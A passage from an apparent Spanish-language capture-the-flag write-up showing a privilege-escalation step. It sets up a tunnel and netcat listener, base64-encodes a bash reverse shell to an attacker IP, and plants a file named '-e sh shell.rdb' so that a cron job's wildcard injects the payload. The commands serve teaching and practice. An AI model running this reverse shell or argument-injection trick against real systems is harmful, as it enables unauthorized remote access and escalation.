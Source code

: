   <img src="./images/r10.png" alt="red" width="600" />
</div>

La manera que lo haremos sera fácil, primero haremos el tunel para la rev shell
```
[Agent : root@nodered] » listener_add --addr 0.0.0.0:7777 --to 127.0.0.1:7777 # para la rev shell
nc -nlvp 7777 
```

Crearemos el payload para no tener que descargarlo lo haremos con base64
```
➜  hack cat shell
bash -c 'bash -i >& /dev/tcp/172.19.0.3/7777 0>&1'
➜  hack base64 shell -w 0
YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTkuMC4zLzc3NzcgMD4mMScK# 
```
Entramos al directorio donde se ejecutan los cron jobs                                              
```
www-data@www:/backup$ cd /var/www/html/f187a0ec71ce99642e4f0afbd441a68b
```
Creamos la injection `-e sh shell.rdb` junto con el payload `shell.rdb`
```
www-data@www:/var/www/html/f187a0ec71ce99642e4f0afbd441a68b$ touch -- '-e sh shell.rdb'

www-data@www:/var/www/html/f187a0ec71ce99642e4f0afbd441a68b$ echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTkuMC4zLzc3NzcgMD4mMScK|base64 -d > shell.rdb

www-data@www:/var/www/html/f187a0ec71ce99642e4f0afbd441a68b$ dir
-e\ sh\ shell.rdb  shell.rdb
```